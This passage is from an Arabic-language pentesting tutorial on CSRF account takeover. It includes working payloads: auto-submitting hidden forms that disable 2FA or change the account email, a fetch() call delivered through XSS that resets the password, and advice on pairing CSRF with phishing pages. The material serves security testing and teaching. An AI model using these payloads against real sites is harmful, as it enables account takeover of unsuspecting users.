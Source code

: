 #### **سيناريو 5: تعطيل المصادقة الثنائية (2FA)**
- **الوصف**: موقع بيسمح بتعطيل 2FA بطلب POST.
- **الاستغلال**:
  - أنشئ طلب يعطل 2FA:
    ```html
    <form action="/disable-2fa" method="POST" id="csrf-form">
      <input type="hidden" name="disable" value="true">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ```
  - بعد تعطيل 2FA، جرب سرقة الحساب بتغيير الباسوورد أو الإيميل.

#### **سيناريو 6: استغلال مع XSS**
- **الوصف**: لو فيه ثغرة XSS في الموقع، ممكن تستخدمها لتنفيذ CSRF.
- **الاستغلال**:
  - أدخل كود JavaScript عبر ثغرة XSS:
    ```javascript
    fetch('/change-password', {
      method: 'POST',
      headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
      body: 'new_password=attacker123'
    });
    ```
  - الكود هينفذ الطلب من داخل الموقع، فيتجاوز أي حماية زي SameSite Cookies.

#### **سيناريو 7: استغلال مع Phishing**
- **الوصف**: استخدام CSRF مع حملة تصيد لخداع الضحية.
- **الاستغلال**:
  - أنشئ صفحة مزيفة تبدو زي الموقع الرسمي، وحط فيها كود CSRF.
  - أرسل بريد إلكتروني يقول: "اضغط هنا لتأكيد حسابك".
  - لما الضحية يفتح الرابط، الطلب هينفذ ويغير بيانات الحساب.

#### **سيناريو 8: استغلال API غير محمي**
- **الوصف**: بعض المواقع بتستخدم API لتغيير بيانات الحساب.
- **الاستغلال**:
  - أنشئ طلب POST للـ API:
    ```html
    <form action="/api/v1/update-email" method="POST" id="csrf-form">
      <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ```
  - لو الـ API مش محمي بـ CSRF Token، الطلب هينجح.

#### **الخلاصة بالعامية**:
فيه طرق كتير تسرق بيها حساب بـ CSRF: غيّر الباسوورد، الإيميل، أو اربط حساب خارجي. لو لقيت API ضعيف أو XSS، استخدمهم. المهم تخلّي الضحية يفتح رابطك، سواء بإيميل أو صفحة مزيفة. جرب كل حاجة حساسة زي تعطيل 2FA أو إضافة رقم تليفون.

---

### **5. نصائح للـ Pentester**
1. **ركز على الإجراءات الحساسة**:
   - ابحث عن طلبات تغيير الباسوورد، الإيميل، أو ربط حسابات خارجية.
2. **اختبر الحمايات بعمق**:
   - جرب إرسال طلبات بدون CSRF Token، بـ Referer فاضي، أو من نطاق خارجي.
3. **استخدم Social Engineering**:
   - صمم إيميلات أو صفحات مقنعة عشان الضحية يفتح الرابط.
4. **دمج مع ثغرات تانية**:
   - XSS مع CSRF بيخلّي الهجوم أقوى بكتير.
5. **وثّق الثغرة**:
   - اعمل PoC واضح يورّي إزاي سرقت الحساب، مع شرح التأثير (مثل السيطرة الكاملة على الحساب).

---